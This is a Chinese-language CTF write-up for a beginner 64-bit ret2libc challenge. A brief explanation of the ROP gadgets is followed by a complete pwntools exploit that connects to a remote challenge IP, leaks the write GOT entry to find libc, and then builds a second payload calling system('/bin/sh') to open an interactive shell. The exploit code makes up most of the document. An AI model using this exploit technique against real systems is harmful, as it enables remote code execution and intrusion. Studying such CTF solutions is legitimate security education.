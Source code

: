 + 这道题是一道 `ret2libc` 的入门题，但最重要一点是这个题目是 **64位程序** 。所以不能将参数布置在栈里面，而要找 `gadget` 然后将参数弹到 `rdi, rsi, rdx` 中。这道题可以找到控制 `rdi` 和 `rsi` 的 `gadget` ，但是不能找到控制 `rdx` 的 `gadget` 。不过没有关系因为这道题目 `write` 函数的第三个参数是字节数，只要 `rdx` 中的值大于 **8** ，就可以达到目的。这道题目可以做到。

  ![image-20201022201911448](https://raw.githubusercontent.com/smallzhong/picgo-pic-bed/master/image-20201022201911448.png)

  ```python3
  #!/usr/python3
  #coding:utf-8
  
  from pwn import *
  
  context.arch = "amd64"
  # context.log_level = "debug"
  
  io = connect("81.69.0.47", 1122)
  
  libc = ELF("./libc")
  
  elf = ELF("./pwn111")
  
  # 因为write已经执行过一次，所以其got表里面存放的是其libc的地址
  write_got = elf.got["write"]
  
  # write的plt
  write_plt_addr = elf.plt["write"]
  
  # 泄露libc之后回到main再执行一次
  main_addr = elf.symbols["main"]
  
  # 64位程序，参数在rdi,rsi,rdx,rcx,r8,r9中，要找gadget
  pop_rdi_ret = 0x401233
  pop_rsi_pop_r15_ret = 0x401231
  
  # 参数从右往左入栈
  payload = flat([cyclic(0x88), pop_rdi_ret, 1, pop_rsi_pop_r15_ret, write_got, 0xdeadbeef,write_plt_addr, main_addr])
  
  io.sendlineafter("please input: ", payload)
  
  write_addr = u64(io.recv(8))
  
  success("write_addr = 0x%x\n", write_addr)
  
  # 获取libc偏移
  libc_offset = write_addr - libc.symbols["write"]
  
  # 得到system在libc中的地址
  system_addr = libc_offset + libc.symbols["system"]
  
  # 构造第二个payload
  payload = flat([cyclic(0x88), pop_rdi_ret, next(libc.search(b"/bin/sh")) + libc_offset, system_addr])
  
  io.sendlineafter("input: ", payload)
  
  io.interactive()
  ```

  